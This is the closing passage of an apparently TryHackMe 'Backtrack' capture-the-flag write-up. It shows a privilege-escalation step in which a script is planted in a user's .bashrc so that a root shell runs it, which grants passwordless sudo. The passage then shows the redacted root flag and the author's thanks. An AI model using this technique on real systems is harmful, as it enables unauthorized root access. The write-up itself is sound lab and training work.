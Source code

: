 To make the root user execute this code, we will put it inside the `.bashrc` file. This file is executed every time someone gets a shell as the user. 
```console
orville@Backtrack:~$ chmod +x getroot.py
orville@Backtrack:~$ nano .bashrc                                                                                                             
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples

/home/orville/getroot.py
...
```

After waiting about 1 minute, we see that `orville` now has sudo rights to execute anything as root without providing a password .

```console
orville@Backtrack:~$ sudo -l
Matching Defaults entries for orville on Backtrack:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User orville may run the following commands on Backtrack:
    (ALL) NOPASSWD: ALL
orville@Backtrack:~$ sudo su -
root@Backtrack:~# cat flag3.txt 

██████╗░░█████╗░░█████╗░██╗░░██╗████████╗██████╗░░█████╗░░█████╗░██╗░░██╗
██╔══██╗██╔══██╗██╔══██╗██║░██╔╝╚══██╔══╝██╔══██╗██╔══██╗██╔══██╗██║░██╔╝
██████╦╝███████║██║░░╚═╝█████═╝░░░░██║░░░██████╔╝███████║██║░░╚═╝█████═╝░
██╔══██╗██╔══██║██║░░██╗██╔═██╗░░░░██║░░░██╔══██╗██╔══██║██║░░██╗██╔═██╗░
██████╦╝██║░░██║╚█████╔╝██║░╚██╗░░░██║░░░██║░░██║██║░░██║╚█████╔╝██║░╚██╗
╚═════╝░╚═╝░░╚═╝░╚════╝░╚═╝░░╚═╝░░░╚═╝░░░╚═╝░░╚═╝╚═╝░░╚═╝░╚════╝░╚═╝░░╚═╝

THM{[REDACTED]}
```

## Outro
Many thanks to the creators of this room, [0utc4st](https://tryhackme.com/r/p/0utc4st) | [YoloSaimo](https://tryhackme.com/r/p/YoloSaimo).

This room taught me a really cool privilege escalation method. Even though it's an old one, it's still a gold one ;)

\- m3gakr4nus


[WARNING]: provided hosts list is empty, only localhost is available. Note that